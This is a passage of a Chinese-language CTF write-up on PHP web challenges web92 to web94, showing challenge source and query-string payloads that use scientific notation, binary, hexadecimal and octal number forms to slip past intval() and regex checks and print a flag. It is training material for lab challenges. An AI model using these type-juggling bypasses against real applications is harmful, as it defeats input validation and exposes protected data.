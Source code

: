 所以我们可以用e绕过也可以用二进制（0b），十六进制（0x）绕过

**payload**

```
?num=0b1000101111100
?num=0x117c
?num=4476e123
```



### web93

```
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    } 
```

比上一题多过滤了一个字母，这样我们e和二进制，十六进制都用不了，

八进制是以数字0开头的，刚好可以绕过

```
?num=010574
```



### web94

```
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(!strpos($num, "0")){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```
